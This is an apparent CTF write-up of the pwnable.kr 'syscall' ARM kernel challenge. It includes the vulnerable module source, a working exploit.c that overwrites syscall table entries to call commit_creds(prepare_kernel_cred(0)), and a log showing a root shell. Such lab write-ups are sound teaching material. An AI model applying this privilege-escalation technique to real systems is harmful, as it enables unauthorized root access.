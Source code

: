 ```yaml
---
title: "pwnable.kr syscall"
tags: Kernel
style: fill
color: warning
comments: true
description: syscall overwriting
---
```


# syscall

The following challenge is brought from [pwnable.kr](https://pwnable.kr).

The ```syscall``` challenge emulates ARM kernel and allows us to overwrite parts of the memory by using its own syscall.

## Analysis

The challenge provides a source code:
```c
// adding a new system call : sys_upper

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/slab.h>
#include <linux/vmalloc.h>
#include <linux/mm.h>
#include <asm/unistd.h>
#include <asm/page.h>
#include <linux/syscalls.h>

#define SYS_CALL_TABLE 0x8000e348 // manually configure this address!!
#define NR_SYS_UNUSED 223

// Pointers to re-mapped writable pages
unsigned int **sct;

asmlinkage long sys_upper(char *in, char *out)
{
	int len = strlen(in);
	int i;
	for (i = 0; i < len; i++)
	{
		if (in[i] >= 0x61 && in[i] <= 0x7a)
		{
			out[i] = in[i] - 0x20;
		}
		else
		{
			out[i] = in[i];
		}
	}
	return 0;
}

static int __init initmodule(void)
{
	sct = (unsigned int **)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}

static void __exit exitmodule(void)
{
	return;
}

module_init(initmodule);
module_exit(exitmodule);
```

The corresponding kernel module, ```m.ko``` , creates a new syscall called sys_upper which takes in two pointers and writes byte from ```in``` to ```out```.

We can attack this by overwriting parts of syscall table and calling the overwritten syscall, just like GOT overwriting, but for syscall.

## Exploit

The syscall table address is given, so there does not need to be a kernel leak.

We can replicate syscall table and reference it- since given by kernel.
And call the new syscall ```SYS_UPPER``` to overwrite two arbitrary syscalls with ```commit_creds``` and ```prepare_kernel_cred```, respectively.
Finally, we can call the overwritten syscall and pop shell.

### prepare & commit addresses

We can get them by using:
```bash
/tmp # cat /proc/kallsyms | grep commit_creds
8003f56c T commit_creds
8044548c r __ksymtab_commit_creds
8044ffc8 r __kstrtab_commit_creds
/tmp # cat /proc/kallsyms | grep prepare_kernel_cred
8003f924 T prepare_kernel_cred
80447f34 r __ksymtab_prepare_kernel_cred
8044ff8c r __kstrtab_prepare_kernel_cred
```

### roadblock

The ```sys_upper``` function, however, alters certain bytes: (b'a' - b'z') into (b'A' - b'Z'). i.e. changes lower case ascii letters to upper case.

So the last byte of ```commit_creds```, 0x6c, cannot pass the filter.
So we can instead pass 0x60 for the last byte and add a 12 byte padding before commit_creds.

The padding can be anything, but I found that people usually like ```mov r1, r1``` which translates to ```\x01\x10\xa0\xe1```. One can use online ARM assembler for this. So it's like the usual NOP sled, but not really.

### exploit.c

Using the information above, the final exploitation script looks something like this:
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/syscall.h>

#define SYS_CALL_TABLE 0x8000e348
#define SYS_UPPER 223

unsigned int **sct;
char *commit_creds = "\x60\xf5\x03\x80"; // 0x8003f56c - 0xc
char *prepare_kernel_cred = "\x24\xf9\x03\x80";
char *nop = "\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1";

int main()
{
    sct = (unsigned int **)SYS_CALL_TABLE;

    syscall(SYS_UPPER, nop, 0x8003f56c - 0xc); // "nop" sled/padding
    syscall(SYS_UPPER, commit_creds, &sct[11]);
    syscall(SYS_UPPER, prepare_kernel_cred, &sct[12]);

    syscall(11, syscall(12, 0));
    system("/bin/sh");

    return 0;
}
```

```bash
/tmp $ id
uid=1000 gid=1000 groups=1000
/tmp $ vi exp.c
/tmp $ gcc -o exp exp.c
./exp/tmp $ ./exp
/bin/sh: can't access tty; job control turned off
/tmp # cat /root/flag
Congratz!! [FLAG]
```

Thanks,

079
